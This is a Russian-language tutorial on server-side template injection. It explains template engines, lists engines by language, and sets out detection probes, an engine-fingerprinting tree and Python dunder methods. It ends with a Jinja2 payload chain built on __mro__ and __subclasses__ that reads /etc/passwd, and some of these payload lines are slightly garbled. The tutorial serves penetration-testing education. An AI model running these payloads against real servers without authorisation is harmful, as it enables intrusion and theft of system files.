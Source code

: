 Server Side Template Injection – это уязвимость (то есть вид атаки на шаблонизаторы), при которой непосредственная вставка пользовательских данных в шаблон может спровоцировать критическую уязвимость в системе.

Template Injection может возникнуть, если пользовательские данные вставляются в шаблон без какой-либо валидации (или с плохой валидацией)

Веб-шаблон – это некоторый тематический html документ, который не является полноценной html страницей, а лишь оболочкой для каких-либо данных. Для ассоциативного ряда можно представить вебшаблон как бланк принятия посылки с почты. Бланк имеет общую структуру (графу ФИО, телефон, получатель, отправитель и так далее).Таких бланков много и все они одинаковые для каждого человека, который будет ее заполнять. Но каждый заполняет ее своими данными.

Шаблонизатор – это программное обеспечение, позволяющее использовать шаблоны для генерации конечных html-страниц. Другими словами, именно шаблонизатор занимается отделением представления конечного результата от исполняемого кода, который в свою очередь заполняет определенными данными шаблон 

|    Среда        | Описание                      
|----------------|-------------------------------|
|Java|Apache, Velocity, FreeMarker, Histone  |    
|PHP  |BH, Fenom, Smarty, Twig, TinyButStrong, XTemplate, Histone, Separate, Blade, Sigma, PHPTAL, Facebook, XHP, dwoo, Blitz, templates | 
|Python | Genshi, Kid, Jinja2, Mako |
|Perl|Template, Toolkit, HTML::Template|
|Ruby |Ruby, Erubis, Haml, Slim, Liquid |
|JS |bem-xjst, BH, Handlebars, Underscore, pug, Histone |


При тестировании веб приложения уязвимости SSTI следует
придерживаться следующего алгоритма:
- Обнаружение
- Идентификация
- Эксплуатация: Чтение --> Исследование --> Атака

 #### Обнаружение
 ```
{{5*6}}
${5*6}
<%= 5*6%>
${{5*6}}
#{5*6}
*{5*6}
```

#### Идентификация

- ${5*6}-->a{*comment*}b-->Smarty
- ${5*6}-->a{*comment*}b-->${"z".join("ab")}-->Mako,unknown
- ${5*6}-->{{5*6}}-->{{5*'6'}}-->jinja2,Twig
- ${5*6}-->{{5*6}}-->нет уязвимости
#### Эксплуатация (чтение)

В документации есть ключевые части, которые следует просмотреть с точки зрения эксплуатации уязвимости:
- Раздел «For Template Authors» описывает базовый синтаксис;
- «Security Considerations» - есть огромный шанс, что разработчики веб приложения не читали данный раздел;
- Список встроенных функций, методов и переменных;
- Список дополнений и расширений — некоторые из них могут быть включены по умолчанию.

#### Эксплуатация (Исследование)
Многие шаблонизаторы имеют объект «self», который предоставляет информацию обо всех других объектах и методах. Если же объекта self нет, то можно попробовать профаззить объекты с помощью инструментов Burp Suite или Wfuzz и словарей с готовыми полезными нагрузками (Seclists, FuzzDB)

#### Эксплуатация (Атака)

Допустим, было обнаружено веб приложение, уязвимое к SSTI. Также было обнаружено, что приложение использует шаблонизатор Jinja2. Тогда можно проэксплуатировать уязвимость следующим образом: например, добьемся чтения локального файла сервера. Так как шаблонизатор написан на Python, будем использовать функции mro и subclasses ().


### Суть SSTI заключается в том, чтобы использовать методы языка, на которых написан шаблонизатор, в своих целях.

Краткое описание классов, методов и атрибутов:
```
__class__ возвращает объект, которому принадлежит тип
__mro__ возвращает кортеж, содержащий базовые классы, унаследованные объектом, и метод анализируется в порядке кортежей во время синтаксического анализа.
__base__ возвращает базовый класс, унаследованный этим объектом
// __base__ и__mro__ используется для поиска базового класса.
__subclasses__ Каждый новый класс сохраняет ссылки на подклассы. Этот метод возвращает список ссылок, которые все еще доступны в классе.
__init__ метод инициализации класса
__globals__ Ссылка на словарь, содержащий глобальные переменные функции.
```
#### Атрибут __mro__ в Python позволяет «двигаться» по древу и наследовать вверх к суперклассу, а функция subclasses () позволяет «двигаться» вниз к наследникам. Таким образом, можно «выбраться» из одного класса и воспользоваться другим.
```
{''.__ class__}}
{{''.__class__.__mro__}}
{{''.__class__.__mro__[2]. Subclasses__()}}
{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
```
